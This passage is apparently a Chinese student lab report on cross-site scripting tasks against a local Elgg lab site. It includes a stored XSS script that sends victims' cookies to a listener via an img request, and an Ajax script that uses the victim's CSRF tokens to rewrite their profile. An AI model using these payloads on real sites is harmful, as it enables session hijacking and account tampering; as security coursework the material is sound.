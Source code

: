 > ​		在之前的任务中，攻击者编写的恶意JavaScript脚本可以打印出用户的Cookie，但只有用户自己才能看到cookie，而不是攻击者。在这个任务中，攻击者需要JavaScript脚本将cookie发送给自己。为了达到这个目的，恶意的JavaScript代码需要向攻击者发送一个附加cookie请求HTTP。如通过如下代码进行发送（注意使用英文单引号）。
>
> ​		请使用工具（如tcpdump 、Firebug、Wireshark等，任意一个即可）查看cookie是否发送出去，并截图。

​		samy个人简介中的js脚本如下：

```html
<script>
		document.write('<img src=http://localhost:5555?c=' + escape( document. cookie) + ' >'); 
</script>
```

​		使用Alice账号登录，查看Samy主页并使用nc -l 555 -v进行监听，观察到成功获取到Alice的cookie信息

<img src="C:\Users\86199\Desktop\web图片\33.png" alt="33" style="zoom:35%;" />

##### 3.4.3 任务三：使用Ajax脚本自动发起会话劫持

> ​		在窃取受害者的机密信息后（如，cookie、token等），攻击者可以为受害者对Elgg网络服务器做任何事情。在本任务中，请写一个Ajax脚本来篡改受害者的个人资料。
>
> ​		你需要使用Ajax脚本自动获取用户的防御CSRF的参数，并发起HTTP请求，使得访问了Samy个人介绍页面的用户，都会遭受到页面介绍中的XSS攻击，让该用户（受害者）自动修改其profile为“Samy is my hero”。

​		在Samy的个人介绍中添加攻击脚本：

```javascript
<script type="text/javascript">
	window.onload = function(){
	var userName=elgg.session.user.name;
	var guid=elgg.session.user.guid;
	var ts=elgg.security.token.__elgg_ts;
	var token=elgg.security.token.__elgg_token;
	var updateMessage = "samy is my hero" ;
	var content="__elgg_token=" +token+"&__elgg_ts="+ts+"&name=" +userName+"&description=&accesslevel[description]=2&briefdescription="+updateMessage+"&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&acesslevel[website]=2&twitter=&accesslevel[twitter]=2&guid="+guid;
	var sendurl="http://www.xsslabelgg.com/action/profile/edit";
	var samyGuid = 47;
	if(guid!=samyGuid){
		var Ajax=null;
		Ajax=new XMLHttpRequest();
		Ajax.open("POST", sendurl, true);
		Ajax.setRequestHeader("Content-Type" ,"application/x-www-forp-urlencoded");
		Ajax.send(content);
	}
}
</script>
```

​		以Alice身份登录，点击Samy主页查看同时使用HTTPHeaderLive抓取信息观察到发起了修改个人简介的请求

<img src="C:\Users\86199\Desktop\web图片\24.png" style="zoom:35%;" />
